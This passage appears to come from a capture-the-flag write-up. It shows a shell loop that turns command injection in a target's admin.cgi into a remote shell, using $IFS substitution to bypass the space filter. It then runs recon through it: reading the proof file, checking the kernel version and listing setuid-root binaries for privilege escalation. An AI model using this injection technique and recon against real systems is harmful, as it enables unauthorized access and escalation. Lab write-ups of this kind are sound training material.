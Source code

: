 Nice :) A few lines of shell code, and we don't even have to run commands through telnet/web browser:

```
#!/bin/sh
while read line; do
  CMD=`echo $line | sed -e 's/ /$IFS/g'`
  fetch -q -o - "http://195.56.122.9:8976/cgi-bin/admin.cgi?$CMD|" 
done
```

Issuing the following command reveals the location of the proof.txt file:

```
find / -name 'proof.txt' -print
Opening QUERY_STRING<br/>/var/mail/proof.txt
```

catting it:

```
cat /var/mail/proof.txt
Opening QUERY_STRING<br/>206208e8903e584d5143d909182261a4
```

Yey, 42 points scored. Now the root access.

The kernel is of version 2.6.32:

```
uname -a
Opening QUERY_STRING<br/>Linux debian 2.6.32-5-686 #1 SMP \\
     Mon Jun 13 04:13:06 UTC 2011 i686 GNU/Linux
```

Tried all the local root sploits we could find -> no success. No known exploits, so we have to find a vuln and create one for ourselves. Here is a list of all suid executables:

```
find / -user 'root' -perm -4000 -print
Opening QUERY_STRING<br/>/sbin/mount.nfs
/usr/sbin/exim4
/usr/lib/pt_chown
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/procmail
/usr/bin/gpasswd
/usr/local/bin/reader
/usr/exim/bin/exim-4.63-1
/bin/mount
/bin/umount
/bin/ping6
/bin/su
/bin/ping
```
